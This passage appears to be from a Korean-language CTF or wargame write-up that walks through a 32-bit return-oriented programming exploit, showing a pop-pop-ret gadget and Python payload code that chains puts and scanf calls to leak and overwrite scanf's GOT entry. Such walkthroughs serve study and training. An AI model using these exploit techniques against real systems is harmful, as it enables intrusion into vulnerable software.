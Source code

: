 ```

<br>

```
 804851a:	5f                   	pop    %edi
 804851b:	5d                   	pop    %ebp
 804851c:	c3                   	ret  
```

<br>

이 코드 가젯을 이용해 esp 레지스터를 scanf 함수의 인자 2개 이후의 주소로 가리키게 설정한다.

<br>

![image](https://user-images.githubusercontent.com/52172169/184467955-5ec28748-5d49-476b-a38d-04db3b943eda.png)

<br>

코드만 따로 보면 아래와 같은데 자세한 설명은 드림핵 질문에서 as3617님의 설명을 보았다.
: <a href="https://dreamhack.io/forum/qna/1206" target="_blank">dreamhack.io/forum/qna/1206</a>

<br>

```python
pop_pop_ret = 0x804851a
pop_ret = pop_pop_ret + 1
scanf_plt = 0x8048340
puts_plt = 0x8048320
puts_got = 0x804a00c
string_fmt = 0x8048559      # "%s"
scanf_got = 0x804a014

payload  = "A"*36           # buf padding
payload += p32(puts_plt + 6)   # ret addr (puts@plt + 6)
payload += p32(pop_ret)  # ret after puts
payload += p32(scanf_got)   # scanf@got
payload += p32(scanf_plt)
payload += p32(pop_pop_ret)
payload += p32(string_fmt)
payload += p32(scanf_got)
payload += p32(scanf_plt)
payload += p32(0xdeadbeef)
payload += p32(scanf_got+4)
```

<br>

```python
payload  = "A"*36           # buf padding
payload += p32(puts_plt + 6)   # ret addr (puts@plt + 6)
payload += p32(pop_ret)  # ret after puts
payload += p32(scanf_got)   # scanf@got
payload += p32(scanf_plt)
payload += p32(pop_pop_ret)
payload += p32(string_fmt)
```
